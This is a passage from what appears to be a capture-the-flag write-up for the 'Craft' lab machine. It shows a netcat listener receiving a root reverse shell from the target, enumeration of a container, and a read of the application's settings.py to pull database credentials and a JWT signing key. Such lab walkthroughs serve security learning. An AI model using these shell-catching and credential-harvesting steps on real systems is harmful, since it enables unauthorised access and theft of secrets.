 



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.110.
    Ncat: Connection from 10.10.10.110:37785.
    /bin/sh: can't access tty; job control turned off
    /opt/app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)



Looks like it's a container:



    /opt/app # hostname
    5a3d243127f5
    /opt/app # ip addr
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
    15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
        link/ether 02:42:ac:14:00:06 brd ff:ff:ff:ff:ff:ff
        inet 172.20.0.6/16 brd 172.20.255.255 scope global eth0
           valid_lft forever preferred_lft forever



## Shell as gilfoyle@craft

### Local Enumeration

It's quickly obvious there's almost nothing on this box. `/opt/app`
holds the API code from gogs:



    /opt/app # ls
    app.py     craft_api  dbtest.py  tests



`settings.py` is there, which gives me creds to the database, as well as
the API key for signing JWTs:



    /opt/app/craft_api # ls
    __init__.py  __pycache__  api          database     settings.py
    /opt/app/craft_api # cat settings.py 
    # Flask settings
    FLASK_SERVER_NAME = 'api.craft.htb'
    FLASK_DEBUG = False  # Do not use debug mode in production
